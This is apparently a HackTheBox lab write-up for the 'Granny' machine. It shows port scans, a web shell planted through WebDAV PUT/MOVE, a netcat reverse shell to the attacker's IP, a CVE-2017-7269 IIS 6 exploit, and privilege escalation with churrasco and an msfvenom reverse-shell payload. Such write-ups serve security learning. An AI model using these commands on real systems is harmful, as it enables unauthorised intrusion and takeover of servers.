


# HackTheBox : Granny

This box was marked as easy box. It is indeed easy only if you are doing this with the help of metasploit. The main take away from this box is the public usability of PUT and Move commands which could get us a web shell. Privelege escalation was tough if you think of manually, very easy if doing it via metasploit.

## Information Gathering

### Port scan

```zsh
nmap -sS -p- -v 10.10.10.15
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-07 11:31 EDT
Initiating Ping Scan at 11:31
Scanning 10.10.10.15 [4 ports]
Completed Ping Scan at 11:31, 0.23s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:31
Completed Parallel DNS resolution of 1 host. at 11:31, 0.00s elapsed
Initiating SYN Stealth Scan at 11:31
Scanning 10.10.10.15 [65535 ports]
Discovered open port 80/tcp on 10.10.10.15
SYN Stealth Scan Timing: About 3.46% done; ETC: 11:46 (0:14:26 remaining)
SYN Stealth Scan Timing: About 9.20% done; ETC: 11:42 (0:10:02 remaining)
SYN Stealth Scan Timing: About 16.76% done; ETC: 11:40 (0:07:32 remaining)
SYN Stealth Scan Timing: About 24.97% done; ETC: 11:39 (0:06:04 remaining)
SYN Stealth Scan Timing: About 32.19% done; ETC: 11:39 (0:05:18 remaining)
Stats: 0:02:47 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 37.73% done; ETC: 11:38 (0:04:37 remaining)
SYN Stealth Scan Timing: About 46.00% done; ETC: 11:38 (0:03:52 remaining)
SYN Stealth Scan Timing: About 54.01% done; ETC: 11:38 (0:03:14 remaining)
SYN Stealth Scan Timing: About 62.54% done; ETC: 11:38 (0:02:35 remaining)
SYN Stealth Scan Timing: About 70.20% done; ETC: 11:38 (0:02:14 remaining)
SYN Stealth Scan Timing: About 75.86% done; ETC: 11:38 (0:01:50 remaining)
SYN Stealth Scan Timing: About 83.29% done; ETC: 11:38 (0:01:15 remaining)
Completed SYN Stealth Scan at 11:38, 419.57s elapsed (65535 total ports)
Nmap scan report for 10.10.10.15
Host is up (0.20s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 419.92 seconds
           Raw packets sent: 131344 (5.779MB) | Rcvd: 99479 (19.377MB)

```
Only port ```80``` is open, now we go and we try to gather some more infomation about it.


```zsh
nmap -sC -sV  -p 80 10.10.10.15
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-07 11:39 EDT
Nmap scan report for 10.10.10.15
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unknown
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Thu, 07 May 2020 15:42:32 GMT
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.03 seconds

```
We now know that the server is built on IIS 6.0 meaning that the remote system might be running ```Windows Server 2003``` , we will check whether this was correct or not in the later phase.

**Also looking at the scan we see PUT, MOVE method is Public which means we can try and see if we could upload a file on to the webserver**

We try to visit the webpage at port 80 and it is a default web page of the IIS server


## Enumeration

### Directory Fuzzing

We will fire up gobuster to see if we can find some interesting directories to look at, so we can find a place to check if we can put a malicious file on the webserver.

```zsh
gobuster dir -u http://10.10.10.15/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -t 30
```
Here we have the result and we see a few directories, we will check if we can put a file on it.

```console
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.15/
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/07 11:37:19 Starting gobuster
===============================================================
/images (Status: 301)
/Images (Status: 301)
/IMAGES (Status: 301)
/_private (Status: 301)
===============================================================
2020/05/07 12:24:59 Finished
```
Unfortunately you cannot put a file on these. I tried using the command below but worked easily when I put them in the root directory

Used Curl to ```PUT``` a file on the server 

```zsh
curl -X PUT http://10.10.10.15/try.txt -d @cmdasp.aspx
```


Used Curl to ```MOVE``` a file and rename it. 

```zsh
curl -X MOVE -H 'Destination: http://10.10.10.15/cmdasp.aspx' http://10.10.10.15/try.txt
```


Copied nc.exe to TEMP folder

```
copy  \\10.10.14.9\tools\nc.exe %TEMP%\nc.exe
```


**KEY TAKEAWAYS: This can be used to upload nc.exe or anything to get a shell back by command execution**

Run this in the webshell and start a listener at 443

```
%TEMP%\nc.exe 10.10.14.9 443 -e cmd.exe 
```


*Alternative Way*

As I was looking for exploits on IIS 6 Remote code execution I found this link:
> https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell

## Exploitation

I downloaded the script, checked the usage.

```zsh
python rev.py 10.10.10.15 80 10.10.14.9 443
```
Start a listener
```zsh
rlwrap nc -lvnp 443
```


Let us see the privileges we have as the current user. Nothing much but we can see the **SeImpersonatePrivilege** was enabled. But we cannot use JuicyPotato.exe as it is as old machine and was not sure.

```cmd
C:\WINDOWS\Temp>systeminfo
systeminfo

Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 14 Minutes, 55 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 23 Model 1 Stepping 2 AuthenticAMD ~1999 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 790 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,326 MB
Page File: In Use:         144 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A

```
I tried to access the user (Lakis) folder and it said access denied. So we have to escalate privileges.


## Privilege escalation

After a lot of searching and struggling I came to find this link:
https://github.com/Re4son/Churrasco

I downloaded the exe and saved it on my work folder and started a smbserver to transfer

```zsh
 python3 /usr/share/doc/python3-impacket/examples/smbserver.py tools .
```

On the window's shell

```cmd
copy \\10.10.14.9\tools\churrasco.exe 
```

After it loaded on the machine

```cmd
churrasco -d "c:\windows\system32\cmd.exe"
```

All I did was ran this multiple times until it worked and my eyes fell on this


Now I quickly made a msfvenom ```rev.exe``` using this

```zsh
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.9 LPORT=4444 -f exe > rev.exe   
```
Copied this is my shared folder with the machine and then transferred it to the target

```cmd
copy \\10.10.14.9\tools\rev.exe 
```

I started a listener at port ```4444``` and after running the rev.exe above multiple times, I finally got a shell with System Privilege and then I grabbed the flag.


## Flags

***User Flag***


***Root Flag***




That is all from this box. I have decided to 'Arctic' next.
